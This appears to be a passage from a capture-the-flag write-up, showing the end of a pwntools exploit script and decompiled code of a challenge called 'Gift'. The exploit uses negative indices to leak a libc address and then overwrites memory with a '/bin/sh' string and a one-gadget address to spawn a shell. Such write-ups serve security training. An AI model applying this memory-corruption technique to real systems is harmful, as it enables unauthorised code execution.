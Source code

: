 ```python
r.sendlineafter(": ",b"-28")

r.recvuntil("comment number: ")
r.recvuntil("comment number: ")
low=int(r.recvline().strip())&0xffffffff
r.recvuntil("name: ")
high=u16(r.recvn(2))
libc=(high<<32)|low
libc-=lib.sym['_IO_2_1_stdout_']
slog("libc",libc)

pause()
r.sendlineafter(": ","2")
r.sendlineafter(": ",b"-35")
pay=b'/bin/sh;;;;;;;'+p64(libc+oneshot[0])
r.sendafter("input comment: ",pay)

r.interactive()
```

---

## Gift

```cpp
__isoc99_scanf("%d %d", &input, &no);
  v0 = time(0LL);
  srand(v0);
  if ( point < input || up_down_ticket <= 0 )
  {
    puts("NOP!!!");
  }
  else
  {
    v4 = random() % 50;
    v5 = random() % 50;
    printf("Your number: %d Lucky number: %d\n", v5, v4);
    if ( v4 > v5 && no == 2 )
    {
      point += 2 * input;
      printf("DOWN~! Congratulations!! point: %d\n", (unsigned int)point);
      --up_down_ticket;
    }
    else if ( v4 < v5 && no == 1 )
    {
      point += 2 * input;
      printf("UP~! Congratulations!! point: %d\n", (unsigned int)point);
      --up_down_ticket;
    }
    else
    {
      puts("Wrong....point thx");
      point -= 2 * input;
      --up_down_ticket;
    }
  }
  return __readfsqword(0x28u) ^ v6;
}
```
